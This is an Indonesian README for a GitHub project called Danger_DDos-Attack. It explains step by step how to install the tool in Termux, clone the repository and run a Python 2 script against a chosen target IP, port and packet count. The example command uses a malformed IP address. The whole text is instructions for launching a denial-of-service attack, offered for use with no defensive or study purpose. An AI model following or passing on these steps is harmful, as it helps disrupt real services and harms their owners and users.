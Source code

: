 # Danger_DDos-Attack

cara menggunakan nya di termux:

1. apt update && apt upgrade
2. apt install python
3. apt install python2
4. apt install git
5. git clone https://github.com/Garuda12cyber/Danger_DDos-Attack.git
6. cd Danger_DDos-Attack
7. ls 
8. python2 Danger_DDos-Attack.py
9. python2 Danger_DDos-Attack.py [IP Target kalian] [port target] [DDos yang ingin di kirim]

ketikan ini tanpa tanpa tanda kurung

contoh : python2 Danger_DDos-Attack.py 2134.24.53.4.52 3897 33536

